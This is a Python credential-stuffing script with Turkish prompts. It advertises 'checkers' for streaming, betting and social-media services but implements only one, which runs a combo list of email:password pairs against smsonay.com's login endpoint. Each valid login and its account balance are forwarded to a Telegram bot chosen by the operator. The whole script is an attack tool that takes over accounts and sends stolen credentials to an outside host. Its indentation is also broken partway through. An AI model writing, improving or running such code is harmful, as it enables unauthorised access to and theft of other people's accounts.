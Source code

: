 import requests
import os
from cfonts import render       


Z = '\x1b[1;31m'
X = '\x1b[1;33m'
F = '\x1b[2;32m'
C = '\x1b[1;97m'
B = '\x1b[2;36m'
Y = '\x1b[1;34m'
C = '\x1b[1;97m'
y = '\x1b[1;35m'
f = '\x1b[2;35m'
z = '\x1b[3;33m'
G = '\x1b[2;36m'
E = '\x1b[1;31m'
DS = '\x1b[30m'
V = '\x1b[1;35m'
Z = '\x1b[1;31m'
X = '\x1b[1;33m'
Z1 = '\x1b[2;31m'
F = '\x1b[2;32m'
A = '\x1b[2;34m'
C = '\x1b[2;35m'
B = '\x1b[2;36m'
Y = '\x1b[1;34m'
M = '\x1b[1;37m'
S = '\x1b[1;33m'
U = '\x1b[1;37m'
Z = '\x1b[1;31m'
X = '\x1b[1;33m'
F = '\x1b[2;32m'
O = '\x1b[38;5;208m'
BL = '\x1b[38;5;21m'
YU = '\x1b[38;5;200m'

print("\x1b[1;39m—" * 60)
logo = render('THOMAS', colors=['green', 'white'], align='center', line_height=0)
print(logo)  
print("\x1b[1;39m—" * 60)

print("\x1b[38;5;117m  1\x1b[38;5;231m - TV Plus Checker | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  2\x1b[38;5;231m - Blu TV Checker  | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  3\x1b[38;5;231m - Exxen Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  4\x1b[38;5;231m - Beymen Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  5\x1b[38;5;231m - Tiktok Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  6\x1b[38;5;231m - Bilyoner Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  7\x1b[38;5;231m - Hotmail Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  8\x1b[38;5;231m - Disney Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  9\x1b[38;5;231m - Sms Onay Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  10\x1b[38;5;231m - D - Smart  Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  11\x1b[38;5;231m - Facebook Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  12\x1b[38;5;231m - Instagram Checker   | \x1b[1;32m aktif ✅")



pss = input (Y+'hangi işlemi yapmak istiyorsunuz :  ')
os.system('clear')
print(G)


if pss in '1':
	import requests
import os
s = '\033[33m'
o = '\033[35m'
r = '\033[32m'
y = '\033[31m'
print(f'{s}Dev: @SoryCoder')
sory = input(f'{o}Combo Yolu Gir: ')
os.system('clear')
print(f'{s}Dev: @SoryCoder')
token = input(f'{o}Token Gir: ')
os.system('clear')
print(f'{s}Dev: @SoryCoder')
ID = input(f'{o}İd Gir: ')

def sorii(email, password):
    url = "https://www.smsonay.com/ajax/login"
    soryders = {
        'User-Agent': "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Mobile Safari/537.36",
        'x-requested-with': "XMLHttpRequest",
    }
    soribaba = {
        'email': email,
        'password': password,
    }
    response = requests.post(url, data=soribaba, headers=soryders)

    try:
        result = response.json()
        if result.get('success'):
            bakiye = result.get('bakiye', 'unknown')
            print(f'{r}Giriş Başarılı: {email}:{password} Bakiye: {bakiye}\n@SoryCoder')
            soryi = f"""
════════════════
Mail: {email}
Şifre: {password}
Bakiye: {bakiye}
═════════════════
By • @SoryCoder"""
            requests.get(f'https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={soryi}')
        else:
            print(f'{y}Giriş Başarısız: {email} : {password}\n@SoryCoder')

    except ValueError:
        print(f'Hata: Geçersiz yanıt alındı: {response.text}')

try:
    with open(sory, 'r') as dosya:
        for satir in dosya:
            parts = satir.strip().split(':')
            if len(parts) == 2:
                email, password = parts
                sorii(email, password)
            else:
                print(f'Hatalı format: {satir.strip()}')
except FileNotFoundError:
    print('Combo bulunamadı')
